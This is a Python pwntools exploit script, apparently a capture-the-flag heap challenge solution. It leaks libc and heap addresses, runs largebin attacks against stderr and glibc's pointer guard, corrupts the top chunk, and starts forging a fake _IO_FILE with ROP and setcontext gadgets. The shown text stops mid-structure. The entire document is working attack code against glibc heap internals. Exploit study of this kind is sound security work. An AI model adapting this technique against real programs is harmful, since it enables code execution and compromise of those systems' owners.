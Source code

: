 ```python
add(0, 0x410)
add(1, 0x410)
add(2, 0x420)
add(3, 0x410)
delete(2)
add(4, 0x430)
show(2)
run_opcode()

libc_base = u64(sh.recvuntil('\x7f')[-6:].ljust(8, '\x00')) - 0x1f30b0  # main_arena + 1104
log.success("libc_base:\t" + hex(libc_base))
libc.address = libc_base

guard = libc_base + 0x2035f0
pop_rdi_addr = libc_base + 0x2daa2
pop_rsi_addr = libc_base + 0x37c0a
pop_rax_addr = libc_base + 0x446c0
syscall_addr = libc_base + 0x883b6
gadget_addr = libc_base + 0x146020  # mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
setcontext_addr = libc_base + 0x50bc0

# leak heapbase
edit(2, "a" * 0x10)
show(2)
run_opcode()
sh.recvuntil("a" * 0x10)
heap_base = u64(sh.recv(6).ljust(8, '\x00')) - 0x2ae0
log.success("heap_base:\t" + hex(heap_base))

# largebin attack stderr
delete(0)
edit(2, p64(libc_base + 0x1f30b0) * 2 + p64(heap_base + 0x2ae0) + p64(libc.sym['stderr'] - 0x20))
add(5, 0x430)
edit(2, p64(heap_base + 0x22a0) + p64(libc_base + 0x1f30b0) + p64(heap_base + 0x22a0) * 2)
edit(0, p64(libc_base + 0x1f30b0) + p64(heap_base + 0x2ae0) * 3)
add(0, 0x410)
add(2, 0x420)
run_opcode()

# largebin attack guard
delete(2)
add(6, 0x430)
delete(0)
edit(2, p64(libc_base + 0x1f30b0) * 2 + p64(heap_base + 0x2ae0) + p64(guard - 0x20))
add(7, 0x450)
edit(2, p64(heap_base + 0x22a0) + p64(libc_base + 0x1f30b0) + p64(heap_base + 0x22a0) * 2)
edit(0, p64(libc_base + 0x1f30b0) + p64(heap_base + 0x2ae0) * 3)
add(2, 0x420)
add(0, 0x410)

# change top chunk size
delete(7)
add(8, 0x430)
edit(7, 'a' * 0x438 + p64(0x300))
run_opcode()

next_chain = 0
srop_addr = heap_base + 0x2ae0 + 0x10
fake_IO_FILE = 2 * p64(0)
fake_IO_FILE += p64(0)  # _IO_write_base = 0
fake_IO_FILE += p64(0xffffffffffffffff)  # _IO_write_ptr = 0xffffffffffffffff
fake_IO_FILE += p64(0)
```